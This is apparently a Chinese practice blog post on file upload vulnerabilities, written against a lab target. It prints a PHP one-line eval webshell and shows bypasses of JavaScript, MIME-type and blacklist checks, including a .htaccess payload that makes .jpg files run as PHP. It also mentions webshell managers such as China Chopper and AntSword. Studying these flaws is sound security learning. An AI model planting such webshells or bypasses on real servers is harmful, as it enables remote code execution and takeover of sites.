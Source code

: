 ```yaml
---
title: 暑假第一周练习(二)文件上传漏洞(一)
date: 2020-07-11 14:35:05
tags: 练习
categories: 技术
photos: https://cdn.jsdelivr.net/gh/yremp/cdn@2.1.5/img/cover/(1).jpg.webp
---
```




﻿# 文件上传漏洞

### 目录：                                                                                              0×01 任意文件上传												   			        0×02 JS限制                                                                                     0×03  MIME限制                                                                           0×04 黑名单限制
**文件上传漏洞原理**：大部分的网站和应用系统都有上传功能，一些文件上传功能实现代码没有严格限制或者是过滤用户上传的文件后缀以及文件类型，导致允许攻击者向某个可通过Web访问的目录上传任意PHP文件，并能够将这些文件传递给PHP解释器，就可以在远程服务器上执行任意PHP脚本。
当系统存在文件上传漏洞时攻击者可以将病毒，木马，WebShell，其他恶意脚本或者是包含了脚本的图片上传到服务器，这些文件将对攻击者后续攻击提供便利。

**0×01 任意文件上传**

没有任何条件限制，可上传任意文件。



![在这里插入图片描述](https://img-blog.csdnimg.cn/20200710180315201.png)
直接上传我们的PHP一句话木马

```
<?php @eval($_POST['qidian']);  ?>
```
上传之后，
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200710180711593.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ1ODY5MDM5,size_16,color_FFFFFF,t_70)
显示出了文件所在的路径，类型等等。

上传成功代表着我们可以通过webshell访问网站

输入一些命令我们就可以查看网站的一些内容，例如
查看网站PHP的版本信息：

```
qidian=phpinfo();
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200710181517345.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ1ODY5MDM5,size_16,color_FFFFFF,t_70)
可以通过webshell用不同的命令，得到网站的各种信息。
当然我们也可以通过菜刀，蚁剑对我们有上传漏洞的网站可视化查看。
![在这里插入图片描述](https://img-blog.csdnimg.cn/2020071018212471.png)
上图使用蚁剑连接的，对我们webshell上传目录可视化。

**0×02 JS限制**

所谓JS限制就是在网页前端的JS 代码会对我们上传的文件的后缀或类型进行过滤，限制我们的上传。

```
<script type="text/javascript">
        function checkFile() {
            var file = document.getElementsByName('upfile')[0].value;
            if (file == null || file == "") {
                alert("你还没有选择任何文件，不能上传!");
                return false;
            }
            //定义允许上传的文件类型
            var allow_ext = ".jpg|.jpeg|.png|.gif|.bmp|";
            //提取上传文件的类型
            var ext_name = file.substring(file.lastIndexOf("."));
            //alert(ext_name);
            //alert(ext_name + "|");
            //判断上传文件类型是否允许上传
            if (allow_ext.indexOf(ext_name + "|") == -1) {
                var errMsg = "该文件不允许上传，请上传" + allow_ext + "类型的文件,当前文件类型为：" + ext_name;
                alert(errMsg);
                return false;
            }
        }
    </script>
```
上面的代码会对我们上传的文件进行过滤，如果满足要求的格式，就允许我们上传，否则不行。
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200710190107952.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ1ODY5MDM5,size_16,color_FFFFFF,t_70)
我们的绕过方法就是把这段JS代码删除。通过firebug查看元素并删除调用checkFile() 的那句话就行了

绕过后就可以上传成功，查看图像得到上传路径。然后可以用菜刀连接。

我们也可以用BurpSuite抓包，改包进行绕过。

**0×03  MIME限制**

MIME限制就是文件类型限制。

```
if (($_FILES['upload_file']['type'] == 'image/jpeg') || ($_FILES['upload_file']['type'] == 'image/png') || ($_FILES['upload_file']['type'] == 'image/gif')) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
```
从上面的代码可以看到我们的Content-Type需要满足上面三种之一才可以上传。
常见的：超文本标记语言文本 .html,html text/htm
              普通文本   .txt text/plain
              RTF文本. rtf application/rtf
             GIF图形 .gif image/gif
             JPEG图形 . jpg image/jpeg
             PHP文件  .php  application/octet-stream
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200710195335306.png)
类型不对，无法上传。

当我们上传PHP文件时，因为类型不符合以上三种之一，就不能上传。

因此，我们需要通过抓包改包改变MIME 内容。

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200710200640718.png)
将Content-Type的内容改为  image/jpeg   就可以绕过MIME限制。
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200710200816632.png)

**0×04 黑名单限制**

文件类型根据黑名单来检测的原理就是：服务器程序根据一份文件后缀名的名单来判断是否允许当前文件上传到服务器，只要上传的文件的类型能够和这个黑名单里面的类型匹配，那么就禁止该文件上传。
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200711130510847.png)
上面就是黑名单里限制的格式。

我们可以将文件后缀改为  phtml ,php3 ,php5。也可以运用后缀的大小写进行绕过。
也可以用后缀加点，加空格，点 +空格+点 绕过等等。

*今天用重写文件解析绕过。(  .htaccess文件)*

.htaccess文件是Apache服务器中的一个配置文件，它负责相关目录下的网页配置.通过htaccess文件，可以实现:网页301重定向、自定义404页面、改变文件扩展名、允许/阻止特定的用户或者目录的访问、禁止目录列表、配置默认文档等功能。

htaccess文件内容为：`SetHandler application/x-httpd-php`

```
<FilesMatch "jpg">
SetHandler application/x-httpd-php
</FilesMatch>
```
即我们上传任何格式的文件都会被当作php文件执行。

先上传这样一个后缀为htaccess的文件，在上传一个.jpg的一句话，这样即使上传的一句话后缀为jpg依然可以连接一句话。



